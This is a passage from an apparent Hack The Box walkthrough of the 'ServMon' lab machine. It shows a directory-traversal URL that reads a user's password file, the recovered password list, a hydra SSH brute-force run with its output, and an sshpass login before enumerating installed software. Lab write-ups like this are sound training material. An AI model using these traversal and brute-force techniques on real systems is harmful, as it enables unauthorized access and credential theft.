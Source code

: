   
In newer windows versions, home folders are usually found in `C:\Users\<Usernames>`, so this means we can look in `C:\Users\Nathan\Desktop\Passwords.txt`. Using directory traversal, our payload becomes:
```
http://servmon.htb/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fusers%2fnathan%2fdesktop%2fpasswords.txt
```
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
Woohoo! We got them passwords, now let's try them! 

### Shell as Nadine

Remember earlier Nmap had told us there was a port 22 (SSH) on the box. Let's save our passwords in a file called `passwords.txt` and use `hydra` and throw them passwords at port SSH, like this:
```
hydra -l nadine -P passwords.txt servmon.htb ssh
```
Notice we're targeting `Nadine` - just turns out the passwords worked for her, instead of `Nathan`.
```
kali@kali:~/htb/boxes/servmon/ssh$ hydra -l nadine -P passwords.txt servmon.htb ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-26 07:50:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://servmon.htb:22/
[22][ssh] host: servmon.htb   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-26 07:50:11
```
We got our password for `Nadine`, now let's ssh in:
```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@servmon.htb 
```
```
kali@kali:~/htb/boxes/servmon/ssh$ sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@servmon.htb
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
At this point you could do a `winpeas.exe` to automatically enumerate the box. But if we remembered our clues earlier, we could notice that there's a `NSClient++` in the `Program Files` directory on the box, and remember that in the nmap scan, there was an `NSClient++` service open at port 8443.
```
nadine@SERVMON C:\Users\Nadine>dir c:\"program files"  
 Volume in drive C has no label.                                               
 Volume Serial Number is 728C-D22C                                             
                                                                               
 Directory of c:\program files                                                 
                                                                               
08/04/2020  23:21    <DIR>          .                                          
08/04/2020  23:21    <DIR>          ..                                         
08/04/2020  23:21    <DIR>          Common Files                               
08/04/2020  23:18    <DIR>          Internet Explorer                          
19/03/2019  05:52    <DIR>          ModifiableWindowsApps                      
```